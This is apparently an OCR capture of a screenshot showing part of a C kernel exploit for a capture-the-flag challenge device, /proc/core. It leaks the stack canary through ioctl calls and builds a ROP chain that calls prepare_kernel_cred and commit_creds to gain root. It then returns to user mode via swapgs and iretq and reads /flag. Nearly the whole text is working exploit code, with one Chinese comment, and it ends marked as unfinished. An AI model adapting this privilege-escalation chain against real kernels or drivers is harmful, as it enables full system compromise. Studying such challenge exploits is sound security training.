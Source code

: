 ```c
        int in = open("/flag", O_RDONLY,S_IRUSR); 
        int flag = read(in, buffer, 1024);
        write(1, buffer, flag);
        exit(0);
}

int main() {
	prepare_kernel_cred = get_address("prepare_kernel_cred");
	commit_creds = get_address("commit_creds");
	
	unsigned long long text_base 		= (unsigned long long)commit_creds - 0x9c8e0;
	unsigned long long pop_rdi 		= 0xffffffff81000b2f - original_base + text_base;
	unsigned long long mov_rdi_rax_pop_rbx	= 0xffffffff8178e68a - original_base + text_base;
	unsigned long long swapgs_popfq		= 0xffffffff81a012da - original_base + text_base;
	unsigned long long iretq		= 0xffffffff81050ac2 - original_base + text_base;
	save_stat();

	int fd = open("/proc/core", 2);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}
	
	char ioctl_res[64];
	ioctl(fd, 0x6677889C, 0x40);
	ioctl(fd, 0x6677889B, ioctl_res);
	unsigned long long canary_val 	= ((unsigned long long *)ioctl_res)[0];
	unsigned long long rbp_val	= ((unsigned long long *)ioctl_res)[1];
	unsigned long long rop_chain[256];
	
	// core_copy_func 的第二个初始化变量 unsigned long long a[10]
	// a[8] = canary;
	int i = 8;
	rop_chain[i ++] = canary_val;
	rop_chain[i ++] = rbp_val;
	rop_chain[i ++] = pop_rdi;
	rop_chain[i ++] = 0;
	rop_chain[i ++] = (unsigned long long) prepare_kernel_cred;
	rop_chain[i ++] = mov_rdi_rax_pop_rbx;
	rop_chain[i ++] = 0;
	rop_chain[i ++] = (unsigned long long) commit_creds;

	rop_chain[i ++] = swapgs_popfq;
	rop_chain[i ++] = 0;
	rop_chain[i ++] = iretq;
	rop_chain[i ++] = (unsigned long long)shell;
	rop_chain[i ++] = user_cs;
	rop_chain[i ++] = user_rflags;
	rop_chain[i ++] = user_sp;
	rop_chain[i ++] = user_ss;
	
	write(fd, rop_chain, sizeof(rop_chain));
	ioctl(fd, 0x6677889A, 0xffffffffffff0000|0x100);
}
```

(未完)